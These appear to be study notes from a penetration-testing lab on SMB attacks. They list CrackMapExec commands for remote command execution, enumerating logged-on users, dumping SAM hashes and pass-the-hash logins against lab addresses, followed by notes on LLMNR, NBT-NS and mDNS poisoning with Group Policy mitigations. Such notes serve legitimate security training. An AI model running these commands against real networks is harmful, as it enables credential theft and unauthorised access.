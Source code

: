 #### CMD or PowerShell using `CrackMapExec`
`-x` to run cmd commands or uppercase `-X` to run PowerShell commands.
```shell-session
AhmaDb0x@htb[/htb]$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

#### Enumerating Logged-on Users
in the netwrok
```shell-session
AhmaDb0x@htb[/htb]$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

#### Extract Hashes from SAM Database
```shell-session
AhmaDb0x@htb[/htb]$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

#### Pass-the-Hash (PtH)
We can use a PtH attack with any `Impacket` tool, `SMBMap`, `CrackMapExec`
```shell-session
AhmaDb0x@htb[/htb]$ crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

## Forced Authentication Attacks
abuse the SMB protocol by creating a fake SMB Server to capture users' [NetNTLM v1/v2 hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4).

`Responder`. [Responder] is an LLMNR, NBT-NS, and MDNS poisoner

#### LLMNR
Link-Local Multicast Name Resolution
**LLMNR** is a Windows **name resolution protocol
used when dns fails.
resolve names to IP addresses

📌 **Port Used:** UDP/5355  
📌 **Default Status:** Enabled in Windows networks
✅ **Disabling LLMNR in Group Policy Helps Prevent This Attack!**

#### NBT-NS
**NBT-NS** is an **older name resolution protocol** used when **DNS and LLMNR fail**.
📌 **Ports Used:** UDP/137  
📌 **Default Status:** Enabled in older Windows systems
✅ **Disabling NBT-NS in Group Policy Helps Prevent This Attack!**

#### mDNS
Multicast DNS

**name resolution protocol** used in **MacOS, Linux, and IoT devices**.
📌 **Port Used:** UDP/5353  
📌 **Default Status:** Enabled on MacOS, Linux, and IoT
